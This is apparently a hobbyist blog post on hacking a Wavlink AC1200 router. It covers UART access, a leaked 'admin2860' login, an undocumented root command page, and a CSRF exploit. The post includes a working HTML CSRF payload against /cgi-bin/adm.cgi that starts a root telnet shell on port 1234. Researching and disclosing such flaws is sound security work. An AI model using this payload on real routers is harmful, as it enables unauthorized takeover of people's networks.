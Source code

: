+++
date = "2020-09-06"
title = "Router hacking!"
slug = "Hacking the Wavlink WN530HG4"
tags = [
]
categories = [
]
externalLink = ""
series = []
+++
*Hello.*

I like to hack SoHo (small-office home-office) routers for fun, and I’ve recently acquired the “WAVLINK AC1200 Dual Band WiFi Router,Gigabit Ethernet 1200Mbps High Speed Long Range 300 Mbps (2.4GHz)+867 Mbps (5GHz), Wireless Internet Router for Home Office”. You can take a look at the device for sale [here](https://www.amazon.com/WAVLINK-Extender-Coverage-1200Mbps-Wireless/dp/B07THZ9LBK/ref=sr_1_3?dchild=1&keywords=wavelink+router&qid=1599340954&sr=8-3).

To begin, a quick google search of the device brings up an interesting group of vulnerabilities:

- [/adm.cgi endpoint that processes commands without verifying their origin](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-10971&scoretype=cvssv2)

- [unauthenticated system information disclosure](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-12266&scoretype=cvssv2)

- [unauthenticated administrator password disclosure](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-10974&scoretype=cvssv2)

Unfortunately the actual exploitation of the issues is not well documented, so I decided to investigate this device to see for myself how they were exploited. First, I would need to interface with the device's on-board operating system.

To do that, we need to pop open the device and take a look at the circuit board. A lot of modern routers like to keep the top of its plastic shell in place with screws which they hide under some stickers. I found this router’s screws on the bottom of the plastic casing.

![Bottom of the router. The red light shining through is where the screw used to be!](../post2/1.jpg)

Once those are gone, we can set about looking at the router’s guts. Here’s a pic of the circuit board.

![The Wavlink router's circuit board.](../post2/2.jpg)

And look here, in the upper right corner. This is a debugging interface for the manufacturers who program this circuit board. These four ports here are a UART interface, which stands for universal asynchronous receiver-transmitter, a computer hardware device for asynchronous serial communication in which the data format and transmission speeds are configurable (more on that in transmission speed in a bit). 

![The UART interface on the circuit board.](../post2/3.jpg)

In layman’s terms, if we connect "something" that can talk to UART, and then have that same "something" also be able to talk to our computer, then we can use our computer to talk to the circuit board’s operating system. So what can we use to do that? We can use [this](https://www.amazon.com/gp/product/B00IJXZQ7C/ref=ppx_yo_dt_b_search_asin_title?ie=UTF8&psc=1)!

![Yaaaarrrrrr, the buspirate!](../post2/4.jpg)

The HiLetgo FT232RL adapter is a hacker multi-tool that talks to electronic stuff, such as our UART port here. Connecting our adapter to the UART port requires us to solder some jumper wires from the UART interface… 

![Soldered jumper wires on the UART interface.](../post2/5.jpg)

...which will connect to the pointy end here on our adapter.

![Connecting our jumper wires from the board to the adapter.](../post2/6.jpg)

So, now that we have our adapter connected, let’s turn on the router and see what happens. We’ve set up our computer to receive the signal from our adapter, but we aren’t certain about the baud rate being used. In digital communications, symbol rate, also known as baud rate and modulation rate, is the number of symbol changes, waveform changes, or signaling events across the transmission medium per time unit using a digitally modulated signal or a line code (remember when we mentioned signal transmission speed earlier?). We don’t know how fast the signal coming from the board is to our adapter, so if we don’t tune the connection to our adapter with the proper baud rate, we will get a bunch of gobbledygook like in the following screenshot.

![Our adapter is tuned to the wrong baud rate, so it interprets the board's signal incorrectly.](../post2/7.jpg)

But, after some tedious trial and error, we have identified the baud rate as 57600. Once we modify our computer’s receive (the Linux program ‘screen’) to interpret the signal correctly, we get some nice, human-readable terminal output!

![After the baud rate is set correctly, we can see the UART output!](../post2/8.jpg)

Great! So if we wait long enough, we will eventually be asked for our Wavlink login. 

![What could the username/password be?](../post2/9.jpg)

But we don’t know the admin account name. Luckily, when we connect to the access point and configure the login password for the web app…

![Setting the router config password.](../post2/10.jpg)

We get this helpful message in the UART output.

![The UART output with a suspicious username parameter.](../post2/11.jpg)

Now, at no point during the WAP wizard was I asked for a username, but here we can see the username parameter of “admin2860” being transmitted through UART output. So, maybe we can just login with that?

![Will admin2860 work?](../post2/12.jpg)

Great! We've logged in and now have root access to the device. Let’s sniff around and see if we find anything really stupid, like those VulnMon entries we discovered earlier.

Eventually, we find the web directory, and there’s a lot in here. After some poking around, we find this (undocumented in the user manual!) webpage called “webcmd.shtml”.

![Sniffing around the router's filesystem.](../post2/13.jpg)

If we bring up “webcmd.shtml” in our browser we see...this.

![WTF???!!](../post2/14.jpg)

So we can just pass system commands to the underlying operating system! Does it work…?

![WTF???!!!?!?!?!?!?](../post2/15.jpg)

Wow, so we can read the systems password file, so everything runs as root (like the Administrator account in Windows). Nice one, Wavlink. If we inspect the web page’s HTML here, we can see that it makes a POST request to the “/cgi-bin/adm.cgi” endpoint. That endpoint is in one of the Vulnmon entries earlier in this post, so this must be vulnerable to Cross Site Request Forgery (CSRF).

![Inspecting the web page's HTML.](../post2/16.jpg)

In applications that are vulnerable to Cross Site Request Forgery (CSRF), an attacker can craft a malicious webpage that, when viewed by the victim, will force their browser to make a request to the vulnerable endpoint.

Earlier while I was digging through the filesystem, I found that the Telnet daemon, a legacy networking server, was installed on the Wavlink router. Let’s see if we can make a malicious webpage that fires off a request to “webcmd” from our victim that will force the router to open up a Telnet backdoor. 

Here’s what the malicious webpage might look like.

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.10.1/cgi-bin/adm.cgi" method="POST">
      <input type="hidden" name="page" value="sysCMD" />
      <input type="hidden" name="command" value="telnetd&#32;&#45;l&#32;&#47;bin&#47;sh&#32;&#45;p&#32;1234" />
      <input type="hidden" name="SystemCommandSubmit" value="Apply" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

And here’s the attack in action. Here, I’m simulating our victim, currently logged into the router…

![Our innocent victim, logged into their router.](../post2/17.jpg)

...but opening up our malicious webpage, which will send a request to the vulnerable endpoint in the context of the user’s session!

![Triggering the CSRF payload.](../post2/18.jpg)

![Our telnet backdoor, visible in the device's process list.](../post2/19.jpg)

And now, even though we get a 404 error from the web server, we can see (red box) that the telnet backdoor has been opened. We connect, and now we have pwned the device!

![Viewing the open port on a network scan.](../post2/20.jpg)

![Connecting to our telnet backdoor.](../post2/21.jpg)

That's all for now. I'll post again when I find something silly on another router. 

*Goodbye.*
